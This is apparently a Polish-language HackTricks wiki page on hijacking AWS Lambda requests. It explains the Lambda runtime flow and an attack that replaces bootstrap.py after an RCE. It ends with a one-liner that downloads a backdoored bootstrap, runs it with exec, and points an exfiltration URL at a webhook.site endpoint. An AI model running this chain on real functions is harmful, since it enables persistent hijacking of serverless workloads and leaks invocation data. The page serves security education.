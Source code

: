 # AWS - Kradzież żądań Lambda

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Przepływ Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** to proces poza kontenerem, który **wysyła** **wywołania** do procesu **init**.
2. Proces init nasłuchuje na porcie **9001**, udostępniając kilka interesujących punktów końcowych:
* **`/2018-06-01/runtime/invocation/next`** – pobierz następne zdarzenie wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – zwróć odpowiedź handlera dla wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – zwróć błąd wykonania
3. **bootstrap.py** ma pętlę, która pobiera wywołania z procesu init i wywołuje kod użytkownika, aby je obsłużyć (**`/next`**).
4. Na koniec **bootstrap.py** wysyła do init **odpowiedź**

Zauważ, że bootstrap ładuje kod użytkownika jako moduł, więc wszelkie wykonania kodu przez kod użytkownika odbywają się w tym procesie.

## Kradzież żądań Lambda

Celem tego ataku jest sprawienie, aby kod użytkownika wykonał złośliwy proces **`bootstrap.py`** wewnątrz procesu **`bootstrap.py`**, który obsługuje podatne żądanie. W ten sposób złośliwy proces **bootstrap** zacznie **rozmawiać z procesem init**, aby obsługiwać żądania, podczas gdy **legit** bootstrap jest **uwięziony**, uruchamiając złośliwy, więc nie będzie prosił o żądania do procesu init.

To proste zadanie do osiągnięcia, ponieważ kod użytkownika jest wykonywany przez legitny proces **`bootstrap.py`**. Tak więc atakujący mógłby:

* **Wysłać fałszywy wynik bieżącego wywołania do procesu init**, aby init myślał, że proces bootstrap czeka na więcej wywołań.
* Żądanie musi być wysłane do **`/${invoke-id}/response`**
* invoke-id można uzyskać ze stosu legitnego procesu **`bootstrap.py`** za pomocą modułu [**inspect**](https://docs.python.org/3/library/inspect.html) w Pythonie (jak [proponowano tutaj](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) lub po prostu ponownie żądając go do **`/2018-06-01/runtime/invocation/next`** (jak [proponowano tutaj](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Wykonać złośliwy **`boostrap.py`**, który obsłuży następne wywołania
* Dla celów ukrycia można wysłać parametry wywołań lambda do kontrolowanego przez atakującego C2, a następnie obsługiwać żądania jak zwykle.
* Do tego ataku wystarczy pobrać oryginalny kod **`bootstrap.py`** z systemu lub [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodać złośliwy kod i uruchomić go z bieżącego wywołania lambda.

### Kroki ataku

1. Znajdź podatność **RCE**.
2. Wygeneruj **złośliwy** **bootstrap** (np. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Wykonaj** złośliwy bootstrap.

Możesz łatwo wykonać te działania, uruchamiając:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
